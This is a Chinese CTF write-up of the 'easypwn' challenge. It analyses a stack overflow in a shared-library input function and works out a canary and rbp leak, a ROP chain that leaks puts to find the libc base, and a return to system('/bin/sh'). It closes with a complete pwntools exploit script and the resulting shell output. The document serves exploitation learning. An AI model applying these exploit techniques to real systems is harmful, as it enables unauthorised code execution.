


# 前言
今天做了一下观安杯的pwn题目easypwn，不是道难题，但是比赛时候没调通，下来又复现一遍，整整调了我三个小时，大半夜的也是调入迷了 😓，调试过程遇到很多问题，大多都是由于没有构造好payload导致程序异常，通过调试这道常规的题目也是积累了些经验，闲下来记录一下。
# 题目分析

题目给了两个附件，一个easypwn的程序，一个libeasy.so的库，检查保护如下，程序只开了NX，libeasy保护全开：
```bash
[*] '/home/yrl/Desktop/saishi/easypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./'
➜  saishi checksec libeasy.so      
[*] '/home/yrl/Desktop/saishi/libeasy.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
打开一看程序使用的函数都是libeasy里封装好的函数，第一次做带so库的题目，有些不知所措（菜），问了大佬之后有了思路，其实也简单，就是平时做题少了，没有很好的做题思路。先看下漏洞点吧，也很好找，如下：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[256]; // [rsp+0h] [rbp-110h] BYREF
  char choice; // [rsp+10Bh] [rbp-5h] BYREF
  int i; // [rsp+10Ch] [rbp-4h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  easyprintf("Welcome to my easy pwn!\n");
  easyprintf("First,I will give you a little gift!\n");
  easyprintf("But it may make no sense!\n");
  easyprintf("Do you want it?(y or n)\n");
  easyinput((__int64)&choice, 2LL);
  if ( choice == 'y' || choice == 'Y' )
    easyprintf("the gift is %p\n");             // easyinput
  easyprintf("Now you have two times to getshell!\n");
  easymemset((__int64)buf, 0LL, 256LL);
  for ( i = 0; i <= 1; ++i )
    easyinput((__int64)buf, 256LL);    <----漏洞点>
  return 0;
}
```
题目说得很清楚了两次getshell机会，漏洞点很可能在easyinput函数里面，打开libeasy库，找到对应函数：
```c
__int64 __fastcall easyinput(void *buf, int size)
{
  unsigned int v3; // [rsp+1Ch] [rbp-74h]
  char s[104]; // [rsp+20h] [rbp-70h] BYREF
  unsigned __int64 v5; // [rsp+88h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  memset(s, 0, 0x64uLL);
  v3 = read(0, s, size);                        // size=256  over
  memcpy(buf, s, size);
  s[v3 - 1] = 0;
  printf("Your input: %s", (const char *)buf);
  return v3;
}
```
这里可以看到有一个溢出漏洞，s大小0x70，但是传入的size却为256，有一个溢出，又来又将s复制给了buf，buf大小就是256不存在溢出，值得注意的是buf定义在main函数里，s定义在easyinput里，main调用easyinput，所以栈内s的地址要低于buf的地址，s和buf在栈内偏移一定，所以在s溢出之后的一定长度内，再将s内容复制给buf，可能会将s原本的内容给覆盖掉，这个之后调试可以看到。
# 利用思路
此时我们有了有一个溢出机会两次，题目还给了easyinput的地址，相当于知道了libeasy的基址,于是可以整理以下利用思路：
1. 溢出泄露canary，rbp 
2. rop泄露puts函数地址，得到libc基址，返回main函数获得两次溢出机会
3. rop返回到system拿到shell
# 具体分析
程序开了canary，我们首先要泄露canary，这里直接覆盖canary的高位`\x00`即可泄露，此时会将rbp一起泄露出来，我们也需要rbp的值，因为经过调试（看汇编）发现buf和一些变量（size）的值是通过`rbp + offset`获取的,所以溢出覆盖的时候要放入准确的rbp。如下：
```python
    pop_rdi = 0x0000000000400903
    ret = 0x000000000040061e
    main_addr = 0x400757
    puts_got = libc.got["puts"]
    puts_plt = libc.plt["puts"]
    sla("it?(y or n)\n",'y')
    p.recvuntil('is ')

    easyinput = int(p.recv()[0:14],16)
    #print "easyinput :",easyinput
    #print rv()
    libeasybase = easyinput - 0x87a
    lg("easyinput",easyinput)
    lg("libeasybase",libeasybase)
    # leak canary rbp    ->first time to leak
    buff = 'A' * 0x68+'a' 
    sn(buff)
    p.recvuntil('\x61')
    tmp = p.recv()
    canary = u64(tmp[:7].rjust(8,'\x00'))
    rbp = u64(tmp[-6:].ljust(8,'\x00'))
    lg("canary:",canary)
    lg("rbp:",rbp)
```
已经使用过一次机会，利用第二次机会，用ROP链泄露puts函数地址，之后返回mian函数，这里返回地时机有待考究，直接返回到调用easyinput函数的地方是可以，但是后续到read的时候read不到输入（或者运行过程中就报异常）应该是返回到main函数中间的位置栈内可能不平衡了，所以经过调试还是返回mian起始位置比较稳妥，且在写交互的时候注意回车的使用或者不适用，有时候会干扰做题的。
```python
# second time to leak        leak putaddr to get libc  return to main
    buff = p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)+'A' * (0x68-0x18) + p64(canary) + p64(rbp)+p64(pop_rdi)
    # gdb.attach(p)
    sn(buff)

    putaddr  = u64(ru('\x0a')[-7:-1].ljust(8,'\x00'))
    lg("putaddr",putaddr)
    libc1.address = putaddr - libc1.symbols['puts']
    lg("Libc address", libc1.address)
    system_addr = libc1.symbols["system"]
    sh_addr = libc1.search("/bin/sh").next()
    lg("system_addr", system_addr)
    lg("sh_addr", sh_addr)
```
这里构造的payload也有讲究，之前没有注意导致调试了很长时间，发现在s溢出的情况下，s和buf复制数据的时候会发生覆盖，buf（地址高）会覆盖掉s（地址低）的尾部，如果按照正常的payload的话后面的ROP会被直接覆盖掉,如下图：
```python
buff = 'A' * 0x68 + p64(canary) + p64(rbp)+p64(pop_rdi)+p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)
```



可以看到到pop_rdi之后的payload都被覆盖了，所以要将pop_rdi地址之后的payload改到最前面，由于覆盖刚好接着pop_rdi后面，所以构造payload要改变一下，如下：
```python
buff = p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)+'A' * (0x68-0x18) + p64(canary) + p64(rbp)+p64(pop_rdi)
```
调试查看内存如下：



之后可以计算出libc基址，sh、system地址。返回到main函数后，再次利用溢出返回到system即可获得shell，此时需要注意system需要用一个ret地址来垫栈使得内存16字节对齐，如下：
```python
    sla("it?(y or n)\n",'n')
    
    # return to system
    buff = p64(sh_addr) +p64(ret) + p64(system_addr) +p64(0xdeadbeef)+'A' * (0x68-0x20) + p64(canary) + p64(rbp)+p64(pop_rdi)
    
    sn(buff)
```
如下成功获取shell
```bash
[+] Waiting for debugger: Done
[+]  putaddr          --> 0x7ff68c3b95a0
[+]  Libc address     --> 0x7ff68c332000
[+]  system_addr      --> 0x7ff68c387410
[+]  sh_addr          --> 0x7ff68c4e95aa
[*] Switching to interactive mode
Your input: n
Now you have two times to getshell!
Your input: \xaa\x95N\x8c$  ls
 chongqing       exp.py         libeasy.so                saitizhengli
 core          'five'         ningdun               
 diaoyucheng   guosai-fuzhou     peda-session-easypwn.txt
 easypwn       JMB_pwn_reverse   ren
$  

```
# exp

```python
from pwn import *

remote_addr=['122.112.210.169',49153] # 23333 for ubuntu16, 23334 for 18, 23335 for 19
context.terminal = ["tmux", "sp","-h"]
context.log_level=True

#p=remote(remote_addr[0],remote_addr[1])
elf_path = "./easypwn"
p = process(elf_path)

libc = ELF("./libeasy.so")
libc1 = ELF("/lib/x86_64-linux-gnu/libc.so.6")
elf = ELF(elf_path)

#gdb.attach(p, 'c')

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
def dbg(address=0):
    if address==0:
        gdb.attach(p)
        pause()
    else:
        if address > 0xfffff:
            script="b *{:#x}\nc\n".format(address)
        else:
            script="b *$rebase({:#x})\nc\n".format(address)
        gdb.attach(p, script)
def lg(s,addr = None):
    if addr:
        print('\033[1;31;40m[+]  %-15s  --> 0x%8x\033[0m'%(s,addr))
    else:
        print('\033[1;32;40m[-]  %-20s \033[0m'%(s))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

if __name__ == '__main__':
    pop_rdi = 0x0000000000400903
    ret = 0x000000000040061e
    main_addr = 0x400757
    puts_got = libc.got["puts"]
    puts_plt = libc.plt["puts"]
    sla("it?(y or n)\n",'y')
    p.recvuntil('is ')

    easyinput = int(p.recv()[0:14],16)
    #print "easyinput :",easyinput
    #print rv()
    libeasybase = easyinput - 0x87a
    lg("easyinput",easyinput)
    lg("libeasybase",libeasybase)
    # leak canary rbp    ->first time to leak
    buff = 'A' * 0x68+'a' 
    sn(buff)
    p.recvuntil('\x61')
    tmp = p.recv()
    canary = u64(tmp[:7].rjust(8,'\x00'))
    rbp = u64(tmp[-6:].ljust(8,'\x00'))
    lg("canary:",canary)
    lg("rbp:",rbp)
    
    # second time to leak        leak putaddr to get libc  return to main
    buff = p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)+'A' * (0x68-0x18) + p64(canary) + p64(rbp)+p64(pop_rdi)
    #buff = 'A' * 0x68 + p64(canary) + p64(rbp)+p64(pop_rdi)+p64(puts_got+libeasybase) + p64(puts_plt+libeasybase) +p64(main_addr)
    #gdb.attach(p)
    sn(buff)

    putaddr  = u64(ru('\x0a')[-7:-1].ljust(8,'\x00'))
    lg("putaddr",putaddr)
    libc1.address = putaddr - libc1.symbols['puts']
    lg("Libc address", libc1.address)
    system_addr = libc1.symbols["system"]
    sh_addr = libc1.search("/bin/sh").next()
    lg("system_addr", system_addr)
    lg("sh_addr", sh_addr)
    sla("it?(y or n)\n",'n')
    
    # return to system
    buff = p64(sh_addr) +p64(ret) + p64(system_addr) +p64(0xdeadbeef)+'A' * (0x68-0x20) + p64(canary) + p64(rbp)+p64(pop_rdi)
    
    sn(buff)
    p.interactive()
```
# 总结
通过这个常规的赛题，虽然调了很长时间，遇到了很多坑点，比如移除后返回地地点，调试过程中对程序有了更加清晰的认识，比如buf和s会出现覆盖的情况，及时调整payload，比如system内存对齐。反正通过这道题其实学到了很多，积累点经验吧！
